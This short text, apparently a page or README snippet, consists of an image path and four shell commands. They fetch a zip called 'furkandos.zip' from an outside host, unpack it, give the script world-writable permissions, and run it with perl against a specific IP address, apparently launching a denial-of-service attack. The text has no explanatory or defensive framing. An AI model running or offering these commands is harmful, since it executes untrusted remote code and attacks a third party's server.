 wget 
http://cdn.furkansandal.com/furkandos.zip 
unzip furkandos.zip
chmod 777 furkandos.pl
perl furkandos.pl 212.73.73.131
